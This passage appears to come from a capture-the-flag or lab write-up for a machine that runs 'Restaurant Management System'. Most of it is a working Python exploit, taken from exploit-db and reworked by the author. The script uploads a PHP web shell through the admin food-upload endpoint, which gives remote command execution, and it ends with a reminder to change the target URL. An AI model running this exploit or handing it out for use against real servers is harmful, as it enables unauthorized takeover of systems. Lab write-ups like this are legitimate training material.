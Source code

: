 ## Exploit

"Restaurant Management System" is running on this directory. I searched for it in exploit-db and found an exploit. It is vulnerable to RCE. The exploit had so many formatting errors and was using proxy, so I had to change it a lot, but the result was satisfying. Here's the exploit:

~~~py
#!/usr/bin/python

import requests

print ("Credits : All InfoSec (Raja Ji's) Group")

url ="http://<MACHINE IP>:12340/rms/"

print ("[+] Restaurant Management System Exploit, Uploading Shell")

target = url+"admin/foods-exec.php"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0)Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Length": "327",
    "Content-Type": "multipart/form-data;boundary=---------------------------191691572411478",
    "Connection": "close",
	"Referer": "http://localhost:8081/rms/admin/foods.php",
	"Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
	"Upgrade-Insecure-Requests": "1"

}

data = """

-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: text/html

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""
r = requests.post(target, headers=headers, data=data)

print("[+] Shell Uploaded. Please check the URL :\n"+url+"images/reverse-shell.php")
~~~

* **If you're using this exploit, don't forget to change the url.**
